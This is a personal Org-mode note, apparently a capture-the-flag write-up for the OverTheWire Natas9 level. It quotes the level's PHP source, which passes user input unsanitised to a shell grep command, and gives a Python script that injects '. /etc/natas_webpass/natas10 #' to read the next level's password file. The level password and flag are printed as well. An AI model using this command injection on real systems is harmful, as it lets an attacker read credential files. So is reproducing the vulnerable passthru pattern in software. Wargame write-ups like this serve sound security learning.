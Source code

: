 :PROPERTIES:
:ID:       91399b5f-500e-4e34-b6f1-f37f8148be9f
:END:
#+title: Natas9
* Previous
[[id:04a1eb05-1de8-4629-9073-71aebd900829][Natas8]]

* Password
W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

* Flag
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

* Notes
From the top page:
#+begin_quote
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>
#+end_quote

In the source code page, we can find :
#+begin_quote
<?
$key = "";
if(array_key_exists("needle", $_REQUEST)) 
{$key = $_REQUEST["needle"];}
if($key != "") 
{passthru("grep -i $key dictionary.txt");}
?>
#+end_quote

The command string is constructed and passed directly, we can abuse that.

#+begin_src python :results output
#!/usr/bin/env python3

import requests
import re
import html
from bs4 import BeautifulSoup as bs
from natas_pass import passwords

session = requests.Session()
username = "natas9"
password = passwords[username]

url = "http://{}.natas.labs.overthewire.org/".format(username)

# response = session.get(url, auth=(username, password))
# content = response.text
# print(content)

# response = session.get(url + "index-source.html", auth=(username, password))
# raw_content = response.text
# sourcecode = html.unescape(raw_content)
# soup = bs(sourcecode)
# print(soup.prettify())

response = session.post(
    url,
    auth=(username, password),
    data={"needle":". /etc/natas_webpass/natas10 #"}
)
raw_content = response.text
# sourcecode = html.unescape(raw_content)
# soup = bs(sourcecode)
# print(soup.prettify())

p = re.findall("([a-zA-Z0-9]{32})", raw_content)

if p and p[0] == password:
    p.pop(0)

print(p[0])
#+end_src

#+RESULTS:
: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

* Next
[[id:cbf374b4-6fb3-4971-83c0-cda46f57beab][Natas10]]
